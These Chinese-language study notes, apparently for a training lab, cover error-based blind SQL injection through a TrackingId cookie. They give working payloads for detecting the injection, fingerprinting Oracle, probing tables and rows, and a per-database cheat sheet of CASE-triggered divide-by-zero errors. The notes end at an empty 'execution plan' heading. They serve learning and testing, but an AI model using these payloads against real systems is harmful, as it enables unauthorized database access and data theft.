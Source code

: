 ### 触发SQL错误诱导条件响应

假设应用程序执行相同的 SQL 查询，但根据查询是否返回任何数据，其行为没有任何不同。前面的技术将不起作用，因为注入不同的布尔条件对应用程序的响应没有影响。
在这种情况下，通常可以通过有条件地触发 SQL 错误来诱导应用程序返回条件响应，具体取决于注入的条件。这涉及修改查询，以便在条件为真时会导致数据库错误，但如果条件为假则不会。

#### 判断是否存在注入

利用 ' / " 进行模糊测试

> TrackingId=xyz' （为其添加一个单引号）
> 验证是否收到错误消息
> TrackingId=xyz'' （将其更改为两个引号）
> 验证错误是否消失

*说明存在SQL注入*

#### 构造连接正确语句

>TrackingId=xyz ' || ( SELECT '' ) || '
>构造正确语句 返回正常页面

*若查询无效，则可能数据库为Oracle *
>TrackingId=xyz'||(SELECT '' FROM dual)||'
>构造正确语句 返回正常页面

#### 构造连接错误语句

>TrackingId=xyz' || ( SELECT 'not-a-real-table' ) || '
>返回错误表明注入被后端作为 SQL 查询处理

*若数据库为Oracle*
>TrackingId=xyz' || ( SELECT '' FROM not-a-real-table ) || '
>返回错误表明注入被后端作为 SQL 查询处理

#### 判断是否存在表

>TrackingId=xyz' || (SELECT '' FROM users WHERE rownum = 1) || '
>存在则返回TURE 不存在则返回FASE （rownum = 1 限制返回 一行）

#### 判断是否存在内容

>'|| (SELECT username FROM users WHERE username='administrator') ||'
>若无显示
>'|| (SELECT CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM DUAL)||'
>自行构建判断CASE语句故意触发SQL错误
---
*备注*
甲骨文&emsp;&emsp;&emsp;&emsp;SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
微软&emsp;&emsp;&emsp;&emsp;&emsp;SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL&emsp;&emsp;1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN CAST(1/0 AS INTEGER) ELSE NULL END)
MySQL&emsp;&emsp;&emsp;&emsp;SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
---
*执行方案*

